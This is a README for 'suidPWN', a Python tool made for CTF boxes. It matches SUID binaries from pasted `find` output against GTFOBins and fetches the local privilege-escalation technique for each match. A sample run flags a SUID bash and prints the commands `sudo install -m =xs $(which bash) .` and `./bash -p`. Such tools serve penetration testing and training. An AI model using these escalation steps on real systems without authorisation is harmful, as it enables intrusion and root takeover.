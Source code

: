 # suidPWN
Speeding up identifying which binaries with a SUID flag may lead to root access

# about
We made this tool while working and different CTF boxes.  
The reason was to fast identify SUID binaries which are vulnerable to an LPE.  
  
Usually when you are checking for SUID binaries on a target you get a lot binaries out of the `find` command. Then you may check every binary you do not know on `gtfobins`. With this approach it is easy to overlook a juicy binary.  
  
> To avoid this, you can use suidPWN where you just have to paste your `find` output and it tells you if a binary is on `gtfobins` and vulnerable to privilege escalation.
  
All the credits for the local privilege escalation techniques go to `gtfobins`. These guys are awesome! <3  

# hints
- update the `binaries` files regulary
- when `suidPWN.py` identified a binary which allows privilege escalation, it scrapes the technique from `gtfobins` and stores it locally, so it does not have to scrape it again next time

# usage

## overview
```bash
python3 suidPWN.py -h
usage: suidPWN.py [-h] [-fd] [-f FILE] [-c]

Identify SUID binaries allowing privilege escalation. Tool made by H4&L0. Credits for LPE techniques to https://gtfobins.github.io/

optional arguments:
  -h, --help            show this help message and exit
  -fd, --find           print find suid binaries command
  -f FILE, --file FILE  read suid files result from file
  -c, --credits         show credits

example usage: python3 suidPWN.py
```

## updating the `binaries` file
```bash
$ python3 get_binaries_from_gtfobins.py
[*] Getting binary list from gtfobins...
[+] Done.
```

## practical example
```bash
$ python3 suidPWN.py
Paste your find output. When you are done press ctrl+d
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/bash
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
^D

[+] bash
[*] Getting bash escalation technique from gtfobins.github.io.
>
>	sudo install -m =xs $(which bash) .
>
>	./bash -p
>
>	source: https://gtfobins.github.io/gtfobins/bash
```
